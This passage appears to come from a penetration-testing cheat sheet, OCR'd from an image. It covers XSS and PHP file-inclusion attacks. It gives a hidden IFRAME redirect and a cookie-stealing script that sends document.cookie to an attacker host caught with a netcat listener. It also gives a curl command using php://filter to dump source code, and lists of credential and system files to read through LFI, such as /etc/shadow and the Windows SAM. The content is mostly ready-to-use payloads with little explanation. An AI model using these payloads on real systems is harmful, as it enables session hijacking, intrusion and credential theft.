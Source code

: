     -   Browser Redirection and IFRAME Injection  
        &lt;iframe SRC="http://$ip/report" height = "0" width
        ="0"&gt;&lt;/iframe&gt;

    -   Stealing Cookies and Session Information  
        &lt;script&gt;  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        &lt;/script&gt;  
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.  
        include("lang/".$\_COOKIE\['lang'\]);  
        include($\_GET\['page'\].".php");

    -   LFI - Encode and Decode a file using base64  
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d

    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

